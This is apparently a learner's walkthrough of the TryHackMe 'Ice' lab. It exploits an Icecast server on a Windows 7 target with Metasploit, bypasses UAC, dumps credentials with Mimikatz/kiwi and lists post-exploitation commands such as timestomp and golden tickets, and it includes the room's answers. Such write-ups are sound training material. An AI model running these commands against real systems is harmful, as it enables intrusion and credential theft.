# ICE

Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

[Link](https://tryhackme.com/room/ice)

## _**1: Connect**_

Connect to the TryHackMe network! Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

  

\-----------------------------------------

  

The virtual machine used in this room (Ice) can be downloaded for offline usage from [https://darkstar7471.com/resources.html](https://darkstar7471.com/resources.html). The sequel to this room, Blaster, can be found [here](https://tryhackme.com/room/blaster).

## _**2: Recon**_

Scan and enumerate our victim!

**Questions**

Deploy the machine! This may take up to three minutes to start.

- 

Launch a scan against our target machine, I recommend using a SYN scan set to scan all ports on the machine. The scan command will be provided as a hint, however, it's recommended to complete the room '[Nmap](https://tryhackme.com/room/furthernmap)' prior to this room. 

- Hint: `nmap -sS -p- <TARGET_IP>`
- `nmap -sS -Pn -A -oN nmapScan.txt 10.10.121.169`
- 

Once the scan completes, we'll see a number of interesting ports open on this machine. As you might have guessed, the firewall has been disabled (with the service completely shutdown), leaving very little to protect this machine. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?

- 3389



What service did nmap identify as running on port 8000? (First word of this service)

- Hint: If nmap doesn't show you the service name, try running the scan again possibly with the version enumeration switch on (-sV)
- Icecast



What does Nmap identify as the hostname of the machine? (All caps for the answer)

- Hint: If nmap doesn't show you the hostname, try running the scan again possibly with the default scripts switch on (-sC)
- DARK-PC



## _**3: Gain Access**_

Exploit the target vulnerable service to gain a foothold!

**Questions**

Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it? Use [https://www.cvedetails.com](https://www.cvedetails.com/cve/CVE-2004-1561/) for this question and the next.

- `searchsploit icecast`
- Execute CodeOverflow




What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

- Hint: this does not show up in search on CVE Details, Check [Here](https://www.exploit-db.com/exploits/568)
- CVE-2004-1561

Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`

- `msfconsole`

After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in '[RP: Metasploit](https://tryhackme.com/room/rpmetasploit)' which is recommended to be completed prior to this room, although not entirely necessary. 

- `search icecast`
- exploit/windows/http/icecast_header



Let's go ahead and select this module for use. Type either the command \`use icecast\` or \`use 0\` to select our search result.

- `use 0`



Following selecting our module, we now have to check what options we have to set. Run the command \`show options\`. What is the only required setting which currently is blank?

- `show options`
- RHOSTS



First let's check that the LHOST option is set to our tun0 IP (which can be found on the [access](https://tryhackme.com/access) page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command \`exploit\`

- `set RHOSTS <IP>`
- `set RHOSTS 10.10.121.169`
- `set LHOST <MY IP>` if needed
- `set LHOST 10.10.29.56`
- `exploit` or `run`




## _**4: Escalate**_

Enumerate the machine and find potential privilege escalation paths to gain Admin powers!

**Questions**

Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?

- meterpreter

What user was running that Icecast process? The commands used in this question and the next few are taken directly from the '[RP: Metasploit](https://tryhackme.com/room/rpmetasploit)' room.

- `getuid` `sysinfo` `shell` `whoami`
- dark



What build of Windows is the system?

- 7601

Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?

- x64

Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command \`run post/multi/recon/local\_exploit\_suggester\`. \*This can appear to hang as it tests exploits and might take several minutes to complete\*  

- `run post/multi/recon/local_exploit_suggester`

Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?  

- exploit/windows/local/bypassuac_eventvwr

Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command \`background\` or \`CTRL + z\`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command \`sessions\` when outside of the meterpreter shell.

- `sessions`

Go ahead and select our previously found local exploit for use using the command \`use FULL\_PATH\_FOR\_EXPLOIT\`

- `use exploit/windows/local/bypassuac_eventvwr`



Local exploits require a session to be selected (something we can verify with the command \`show options\`), set this now using the command \`set session SESSION\_NUMBER\`  

- `set session 1`

Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?

- LHOST

Set this option now. You might have to check your IP on the TryHackMe network using the command \`ip addr\`

- `set lhost <my ip>`
- `set lhost 10.10.29.56`

After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command \`run\`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails. 

- `run`



Following completion of the privilege escalation a new session will be opened. Interact with it now using the command \`sessions SESSION\_NUMBER\`

- `sessions 2`

We can now verify that we have expanded permissions using the command \`getprivs\`. What permission listed allows us to take ownership of files?

- `getprivs`
- SeTakeOwnershipPrivilege



## _**5: Looting**_

Learn how to gather additional credentials and crack the saved hashes on the machine.

**Questions**

Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't). 

- `ps`



In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?

Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 

- spoolsv.exe

Migrate to this process now with the command `migrate -N PROCESS_NAME`

- `migrate -N spoolsv.exe`



Let's check what user we are now with the command `getuid`. What user is listed?

- `getuid`
- NT AUTHORITY\SYSTEM



Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)

- `load kiwi`



Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`. 

- `help`

Which command allows up to retrieve all credentials?

- creds_all



Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

- `creds_all`
- Password01!



## _**6: Post-Exploitation**_

Explore post-exploitation actions we can take on Windows.

**Questions**

Before we start our post-exploitation, let's revisit the help menu one last time in the meterpreter shell. We'll answer the following questions using that menu.

- `help`

What command allows us to dump all of the password hashes stored on the system? We won't crack the Administrative password in this case as it's pretty strong (this is intentional to avoid password spraying attempts)

- hashdump



While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?

- screenshare



How about if we wanted to record from a microphone attached to the system?

- record_mic

To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.

- timestomp



Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?

Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authentication system in Windows domains), the ticket-granting ticket. In short, golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain.

- golden_ticket_create



One last thing to note. As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP). As this is a workstation, we'd likely kick whatever user is signed onto it off if we connect to it, however, it's always interesting to remote into machines and view them as their users do. If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`

- `run post/windows/manage/enable_rdp`



## _**7: Extra Credit**_

Explore manual exploitation via exploit code found on exploit-db. 

Exploit link: [https://www.exploit-db.com/exploits/568](https://www.exploit-db.com/exploits/568)

To learn more about alternative exploitation methods, check out the sequel to this room [Blaster](https://tryhackme.com/room/blaster)!

As you advance in your pentesting skills, you will be faced eventually with exploitation without the usage of Metasploit. Provided above is the link to one of the exploits found on Exploit DB for hijacking Icecast for remote code execution. While not required by the room, it's recommended to attempt exploitation via the provided code or via another similar exploit to further hone your skills.

